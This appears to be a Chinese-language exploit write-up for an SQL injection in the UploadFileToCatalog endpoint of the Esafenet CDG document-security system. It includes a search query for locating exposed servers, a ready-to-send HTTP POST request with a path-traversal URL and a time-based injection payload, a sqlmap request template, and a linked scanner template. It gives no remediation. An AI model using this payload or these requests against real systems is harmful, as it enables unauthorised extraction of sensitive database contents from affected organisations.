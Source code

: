 # 亿赛通电子文档安全管理系统UploadFileToCatalog存在SQL注入漏洞

# 一、漏洞简介
 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统UploadFileToCatalog存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/y6kVJz2P66ut0NRz/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-025518.png)

# 四、漏洞复现
```plain
POST /CDGServer3/js/../policy/UploadFileToCatalog?fromurl=../user/dataSearch.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
 
id=1';WAITFOR DELAY '0:0:3'--
```

![1706846059605-f7ed0a2e-dbb7-44ef-9c48-e5b0f1a2f537.png](./img/y6kVJz2P66ut0NRz/1706846059605-f7ed0a2e-dbb7-44ef-9c48-e5b0f1a2f537-509400.png)

sqlmap

```plain
POST /CDGServer3/js/../policy/UploadFileToCatalog?fromurl=../user/dataSearch.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
 
id=1
```

![1706846164296-703acde3-d5a8-4c72-9488-6605e2983e68.png](./img/y6kVJz2P66ut0NRz/1706846164296-703acde3-d5a8-4c72-9488-6605e2983e68-116124.png)

[亿赛通电子文档安全管理系统-uploadfiletocatalog-sql注入.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1713621695023-2321bd4d-69db-4840-bf2c-1e878213aca0.yaml)



> 更新: 2024-04-20 22:01:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bxi5rg5edb19fsou>